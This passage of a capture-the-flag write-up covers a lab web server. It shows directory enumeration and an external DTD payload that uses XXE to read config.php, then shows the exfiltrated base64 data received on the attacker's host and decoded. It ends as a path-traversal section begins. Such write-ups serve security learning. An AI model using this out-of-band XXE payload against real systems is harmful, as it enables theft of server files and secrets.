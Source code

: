 ```bash
/upload (Status: 200)
/upload.php (Status: 200)
/release (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/patents (Status: 301)
```
Config.php seems interesting, so let try to leak the contents of this file.

```bash
root@silence:~# cat ext.dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=config.php">
<!ENTITY % file "<!ENTITY exfil SYSTEM 'http://10.10.14.5/DATA?%data;'>">
```
In order to leak config.php, we simply have to change the file to read in the ext.dtd file.

```bash
10.10.10.173 - - [13/May/2020 20:03:24] "GET /DATA?PD9waH[...]Cj8+Cgo= HTTP/1.0" 404 -

root@silence:~# echo -n "PD9waH[...]Cj8+Cgo=" | base64 -d
<?php
# needed by convert.php
$uploadir = 'letsgo/';

# needed by getPatent.php
# gbyolo: I moved getPatent.php to getPatent_alphav1.0.php because it's vulnerable
define('PATENTS_DIR', '/patents/');
?>
```
Base64 decoding the received data, we get find a new interesting file, we could try to access: `getPatent_alphav1.0.php`.

## Path-traversal to RCE
Going to `getPatent_alphav1.0.php`, we get a webpage, where we seem to be able to read patents by supplying the id parameter. Using the same technique as before, we can leak the source code of getPatent_alphav1.0.php in order to analyze it. Sadly, this does not work as expected for some reason. Supplying ids gives us different output, but nothing too interesting.

![Get patents](/assets/img/posts/patents/webpage-getpatent.png)
